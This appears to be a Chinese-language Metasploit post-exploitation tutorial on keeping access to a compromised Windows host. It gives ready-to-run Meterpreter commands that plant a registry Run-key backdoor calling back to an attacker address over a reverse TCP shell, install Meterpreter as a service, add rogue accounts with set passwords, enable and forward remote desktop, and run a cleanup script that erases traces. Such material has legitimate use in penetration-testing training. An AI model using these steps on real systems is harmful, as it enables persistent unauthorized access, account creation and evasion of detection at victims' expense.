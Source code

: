 ### 权限维持模块

**persistence 模块开机自启**

命令会在`C:\Users***\AppData\Local\Temp\`目录下，上传一个vbs脚本，通过脚本在目标主机的注册表键`HKLM\Software\Microsoft\Windows\Currentversion\Run`中添加一个键值，达到开机自启动

```bash
run persistence -X -i 5 -p 443 -r 192.168.10.141

# -X 参数指定启动的方式为开机自启动
# -i 参数指定反向连接的时间间隔
```

对应攻击机的监听操作如下：

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.141
set LPORT 443
exploit
```

**metsvc 模块服务自启**

将Meterpreter以系统服务的形式安装到目标主机上，在目标主机上开启监听并等待连接

`run metsvc`

### 开启远程桌面

**使用getgui模块开启远程桌面**

在目标主机上添加了账号metasploit，其密码为meterpreter，并开启了远程控制终端

```bash
run getgui -u metasploit -p meterpreter
```

注意：脚本运行会在`/root/.msf4/logs/scripts/getgui`目录下生成`clean_up__xxxxxxx.rc`脚本，当在远程桌面操作完之后，可以使用这个脚本清除痕迹，关闭服务、删除添加的账号

```bash
run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up_xxxxxx.rc
```



**使用enable_rdp脚本开启远程桌面**

脚本位于`/usr/share/metasploit-framework/modules/post/windows/manage/enable_rdp.rb`

通过enable_rdp.rb脚本可知：

开启rdp是通过reg修改注册表；

添加用户是调用cmd.exe 通过net user添加；

端口转发是利用的portfwd命令

```bash
run post/windows/manage/enable_rdp  #开启远程桌面
run post/windows/manage/enable_rdp USERNAME=www2 PASSWORD=123456 #添加用户
run post/windows/manage/enable_rdp FORWARD=true LPORT=6662  #将3389端口转发到6662
```
